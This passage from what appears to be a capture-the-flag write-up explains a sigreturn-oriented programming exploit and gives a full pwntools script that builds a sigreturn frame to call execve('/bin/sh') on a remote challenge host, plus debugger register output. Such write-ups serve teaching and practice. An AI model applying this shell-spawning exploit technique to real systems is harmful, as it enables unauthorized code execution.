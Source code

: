 This clarifies the fact that specific offsets in my stack frame get pushed into specific registers. Theoretically, I could use this debugger information to figure out the offsets needed to fill each register. Fortunately, pwntools provides an easier method; it can automatically create a sigreturn frame, and the contents of individual registers can then be filled with lines like "frame.rsi = 0". So, all I have to do is make my sigreturn, follow it with a sigreturn frame in which rax = 0x3b (for execve), rdi = '/bin/sh' string, rsi and rdx are 0, and rip = a syscall gadget. Here is an exploit script that does just that:
```
from pwn import *

#target = process('./little')

#pid = gdb.attach(target, "\nb *0x0040100f\n set disassembly-flavor intel\ncontinue")

target = remote('host1.metaproblems.com', 5460)


syscall = 0x000000000040100d
syscall_pop_rax = p64(0x0000000000401007)
binsh = 0x00402000

padding = b''
payload = padding

payload += syscall_pop_rax
payload += p64(0xf)

# Specify the architecture
context.arch = "amd64"

frame = SigreturnFrame()

frame.rip = syscall
frame.rdi = binsh 
frame.rax = 59
frame.rsi = 0
frame.rdx = 0

payload += bytes(frame)
print(bytes(frame))

target.sendline(payload)

target.interactive()
```
Here is what my registers look like in GEF if I run it locally and debug:
```
$rax   : 0x3b              
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x0               
$rbp   : 0x0               
$rsi   : 0x0               
$rdi   : 0x0000000000402000  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x000000000040100d  →  <_start+13> syscall 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x0               
$r12   : 0x0               
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0 
```